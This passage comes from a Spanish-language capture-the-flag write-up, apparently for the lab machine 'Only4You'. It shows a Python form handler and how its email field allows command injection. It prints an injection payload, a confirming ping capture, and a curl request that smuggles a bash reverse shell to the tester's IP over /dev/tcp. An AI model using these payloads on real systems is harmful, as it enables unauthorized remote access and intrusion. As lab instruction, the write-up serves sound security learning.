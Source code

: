 ```python
	if status == 2:
		msg = EmailMessage()
		msg['From'] = f'{email}'
		msg['To'] = 'info@only4you.htb'
		msg['Subject'] = f'{subject}'
		msg['Message'] = f'{message}'

		smtp = smtplib.SMTP(host='localhost', port=25)
		smtp.send_message(msg)
		smtp.quit()
		return status
	elif status == 1:
		return status
	else:
		return status

```
{: file="/var/www/only4you.htb/form.py"}

Está verificando al principio si lo que se le pasa es una dirección de correo para luego ejecutar el comando `dig txt domain.com`, pero **solamente verifica si es algo en formato de dirección de correo**.

Introduciendo lo siguiente a la petición POST al parámetro email, podremos injectar comandos:

`email=test@testing.com%20$(ping -c 1 10.10.14.208)&subject=uwu&message=hellofromhacker`

Enviando eso para mandarnos un ping y comprobar la ejecución, funciona de maravilla

```bash
❯ doas tshark -i tun0 icmp
doas (vzon@pwnedz0n) password: 
Running as user "root" and group "root". This could be dangerous.
Capturing on 'tun0'
 ** (tshark:35878) 16:21:07.757347 [Main MESSAGE] -- Capture started.
 ** (tshark:35878) 16:21:07.757412 [Main MESSAGE] -- File: "/tmp/wireshark_tun0A9GDA2.pcapng"
    1 0.000000000 10.10.11.210 → 10.10.14.208 ICMP 84 Echo (ping) request  id=0x0002, seq=1/256, ttl=63
    2 0.000015372 10.10.14.208 → 10.10.11.210 ICMP 84 Echo (ping) reply    id=0x0002, seq=1/256, ttl=64 (request in 1)

```

Vamos a enviarnos una reverse shell a nuestro equipo ahora

```bash
❯ curl -v -d "email=test@testing.com%20\$(bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/10.10.14.208/443%200>%261')&subject=uwu&message=hellofromhacker" http://only4you.htb
*   Trying 10.10.11.210:80...
* Connected to only4you.htb (10.10.11.210) port 80 (#0)
> POST / HTTP/1.1
> Host: only4you.htb
> User-Agent: curl/8.1.2
> Accept: */*
> Content-Length: 131
> Content-Type: application/x-www-form-urlencoded
> 
```
